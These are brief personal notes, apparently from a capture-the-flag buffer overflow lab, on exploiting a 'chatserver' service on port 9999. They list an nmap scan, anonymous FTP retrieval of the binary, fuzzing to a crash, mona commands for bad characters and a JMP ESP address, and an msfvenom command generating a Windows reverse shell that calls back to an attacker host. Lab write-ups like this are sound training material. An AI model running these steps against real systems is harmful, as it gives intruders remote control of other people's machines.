 # BRAINSTORM
`nmap -sV  10.10.113.75`
ftp as anonymous
binary mode
mget FILE

##

* 3 services are running 
- FTP
- custom service at 9999

* FTP 
- run in binary mode
- download chatserver and dll file

* run fuzzer.py
* crashed at 2100 bytes
`!mona config -set workingfolder c:\mona\%p`
`!mona bytearray -b "\x00"`
`!mona compare -f C:\mona\chatserver\bytearray.bin -a 00fceea8`
`!mona jmp -r esp -cpb "\x00"`
`msfvenom -p windows/shell_reverse_tcp LHOST="10.10.172.192" LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

